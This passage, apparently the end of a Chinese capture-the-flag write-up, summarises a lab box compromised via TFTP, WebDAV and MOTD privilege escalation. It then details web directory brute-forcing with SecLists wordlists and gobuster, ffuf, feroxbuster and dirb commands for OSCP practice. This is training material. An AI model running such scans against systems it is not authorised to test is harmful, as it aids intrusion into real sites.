

---
# 4. 总结

整台靶机的难度并不算高，你只需要对 TFTP、WebDAV 有一个简单的了解，就可以获取 Webshell。不过在提权阶段，如果你对 Brainfuck 的编码方式不熟悉的话，就无法进行后续的操作。而且还需要你了解 Linux 中 MOTD 提权的原理，才能完成提权。

---
# 5. 补充

## 5.1 关于网站目录扫描详细介绍

### dirsearch 默认字典

dirsearch 内置了一个位于 `db/dicc.txt` 的字典，包含约 **10,000** 条条目。

在 Kali 上通过 apt 安装的版本，配置文件位于 `/etc/dirsearch/default.conf`，可以在里面修改默认字典路径、扩展名、超时等参数。

dirsearch 字典有个特殊设计：默认情况下 dirsearch 只会将 `%EXT%` 关键字替换为扩展名，而不会给每个词条都加扩展名。如果你使用 SecLists 这类不含 `%EXT%` 的字典，需要加 `-f` / `--force-extensions` 参数，才能给每个词条追加扩展名。

---

### 更全面的字典选择

字典优先推荐从 **SecLists** 取，路径在 `/usr/share/seclists/Discovery/Web-Content/`，核心推荐：

|字典|条目数|特点|
|---|---|---|
|`raft-small-directories.txt`|~20,000|来自真实爬虫数据，噪声低，快速扫描首选|
|`raft-large-directories.txt`|~62,000|RAFT 项目出品，真实网站目录，准确率高|
|`directory-list-2.3-medium.txt`|~220,000|业界标准字典，来源于 DirBuster，覆盖面广|
|`directory-list-2.3-big.txt`|~1,200,000|覆盖最全，耗时长，深度测试用|
|`common.txt` (dirb 自带)|~4,600|最小快速，临时验证用|

**SecLists 安装：**

```bash
sudo apt install seclists
# 或
git clone https://github.com/danielmiessler/SecLists /usr/share/seclists
```

SecLists 在 Kali Linux 上默认附带，是 OSCP、HackTheBox 等实战场景中的默认基线。

**OSCP 实战建议策略：**

- 快速初扫：`raft-small-directories.txt`
- 标准扫：`directory-list-2.3-medium.txt`
- 针对 PHP 站点加 `-e php,html,txt,bak,old`

---

### 替代工具对比

#### 1. gobuster（OSCP 最常用）

Go 编写，速度快，语法直观：

```bash
gobuster dir -u http://target \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -x php,html,txt,bak \
  -t 50 \
  --timeout 10s
```

#### 2. ffuf（更灵活，推荐）

模糊测试专用，支持多种场景，过滤功能强：

```bash
ffuf -u http://target/FUZZ \
  -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt \
  -e .php,.html,.txt,.bak \
  -fc 404,403 \
  -t 50
```

#### 3. feroxbuster（递归扫描首选）

feroxbuster 结合暴力破解与字典来搜索目标目录中未被链接的内容，这类资源可能存储了 Web 应用或运维系统的敏感信息，如源代码、凭据、内网地址等。最大优势是**自动递归**：

```bash
feroxbuster -u http://target \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -x php,html,txt \
  -t 50 \
  -L 3          # 递归深度
```

#### 4. dirb（轻量，快速验证）

内置 `common.txt`（4600 词），适合快速初探：

```bash
dirb http://target /usr/share/wordlists/dirb/common.txt
```

---

### OSCP 备考推荐工作流

```text
1. dirb common.txt         → 30秒快速摸底
2. gobuster/ffuf + raft-small  → 标准扫描
3. feroxbuster + medium.txt    → 发现有意思目录后递归深挖
4. 针对特定技术栈换专项字典    → 如 /usr/share/seclists/Discovery/Web-Content/CMS/
```

主要工具推荐顺序：**ffuf > feroxbuster > gobuster**，dirsearch 适合快速验证，深度扫描换前三者配合 SecLists 更高效。

---
# 6. 参考链接


https://www.runoob.com/linux/linux-comm-tftp.html

https://medium.com/@matei.talpau/ha-narak-writeup-e9d535d1e115

https://www.bilibili.com/video/BV1R84y1w7MK/?spm_id_from=333.1387.favlist.content.click&vd_source=fb8eb6dfcbd71299a284e8d99e7ec589
